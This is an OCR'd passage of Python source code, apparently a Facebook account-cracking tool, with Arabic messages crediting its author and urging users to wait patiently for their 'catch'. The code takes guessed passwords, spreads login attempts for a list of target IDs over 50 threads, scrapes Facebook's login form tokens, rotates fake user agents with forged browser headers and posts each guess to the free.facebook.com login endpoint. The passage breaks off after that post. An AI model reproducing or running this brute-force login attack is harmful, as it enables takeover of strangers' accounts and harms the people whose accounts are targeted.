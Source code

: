     print("")
    for bilal in range(passx):
        pww = input("\033[1;32m[VIP]   اكتب الباسوورد : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        clear()
        tl = str(len(user))
        print('\033[1;91m  عدد الايديات المستهدفه: '+tl)
        print('\033[1;97m شروحات نادر @nade20080')
        print('\033[1;32m عزيزي المستخدم انتضر الصيد وانتضر رزق وانت تنتضر رزقك صلي على النبي محمد وملاحضه الصيد قد يكون بطيى حسب جوده الانترنت وحسب دولتك وحسب عدد الباسوردات فكون صبور وحضا اوفر تحياتي نادر')
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
            manshera.submit(rcrack,uid,pwx,tl)
    print('\033[1;34m >_@NN11N11_<')

def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://free.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {"authority": 'free.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.8',
            "accept-encoding": 'gzip, deflate, br',
            "accept-language": 'en-US,en;q=1',
            'cache-control': 'no-cache, no-store, must-revalidate',
            "referer": 'https://t.facebook.com/',
            "sec-ch-ua": '"Google Chrome";v="90", "Not)A;Brand";v="8", "Chromium";v="75"',
            "sec-ch-ua-mobile": '?1',
            "sec-ch-ua-platform": "Windows",
            "sec-fetch-dest": 'document',
            "sec-fetch-mode": 'navigate',
            "sec-fetch-site": 'same-origin',
            "sec-fetch-user": '?0',
            "pragma": 'no-cache',
            "priority": 'u=0',
            'cross-origin-resource-policy': 'cross-origin',
            "upgrade-insecure-requests": '1',
            "user-agent": pro}
            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text